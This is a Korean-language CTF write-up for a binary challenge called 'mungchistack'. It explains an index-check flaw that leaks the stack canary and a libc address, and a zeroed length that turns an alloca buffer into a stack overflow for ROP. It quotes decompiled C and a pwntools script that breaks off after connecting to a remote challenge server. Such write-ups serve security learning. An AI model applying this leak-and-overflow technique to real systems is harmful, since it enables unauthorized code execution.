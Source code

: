 v2 에 입력한 인덱스가 들어가는데, 인덱스 검사 루틴이 있지만 제대로 거르지 못하고,

게다가 return 도 안해서 인덱스 제한 없이 스택에서 leak 할 수 있다.

main thread 가 아니라서 libc_start_main 을 leak 할 수는 없지만 

리턴주소중에 clone 함수의 주소가 있었다. 

bof 를 이용할 것이기 때문에 canary 도 leak 해줬다.

`eventCall()`

```cpp
length = NAME_LENGTH; // NAME_LENGTH
  puts("\x1B[1;1H\x1B[2J");
  puts("* Now you can call a cat. *");
  puts("Please select the name of the cat you want to call");
  puts("\x1B[32mindex [1]\x1B[0m : mungchi(default)");
  puts("\x1B[32mindex [2]\x1B[0m : Another cat(undefined)");
  printf("\n >>> ");
  __isoc99_scanf("%16s", nptr);
  v5 = atoi(nptr);
  if ( v5 == 1 )
  {
    printf("\x1B[32mCall mungchi\x1B[0m");
  }
  else if ( v5 <= 2 )
  {
    v7[v5 - 1] = 0LL;
    v0 = v5 - 1;
    v1 = 16 * ((length + 23) / 0x10);
    while ( v4 != &v4[-(v1 & 0xFFFFFFFFFFFFF000LL)] )
      ;
    v2 = alloca(v1 & 0xFFF);
    if ( (v1 & 0xFFF) != 0 )
      *(_QWORD *)&v4[(v1 & 0xFFF) - 8] = *(_QWORD *)&v4[(v1 & 0xFFF) - 8];
    v7[v0] = v4;
    setName(v7[v5 - 1]);
  }
```

alloca 의 인자로 `16 * ((length + 23) / 0x10);` 이 값이 들어가는데, 

0 을 입력해서 v5 가 0이되게 하면 `v7[v5 - 1] = 0LL;` 여기서 length 변수를 0으로 만들 수 있다.

setName 함수에서는 0x1000 만큼 입력받을 수 있으니 위에서 구한 주소를 바탕으로 ROP 하면 된다.

```python
from pwn import *
import subprocess
import sys

slog = lambda s,n:log.info(": ".join([s,hex(n)]))
context.binary = binary = "./mungchistack"
library="./libc-2.31.so"
# context.log_level='debug'

context.arch="amd64"
b=ELF(binary,checksec=False)
if '1' in sys.argv:
    r = remote("3.39.32.143", 5333)
    lib=ELF(library,checksec=False)
else:
    r = b.process()
    lib = b.libc

# 0 7 28 -> eventCall (7,7,7)
# 6 2 2  -> eventHunt (2,0,1)
r.sendline()
```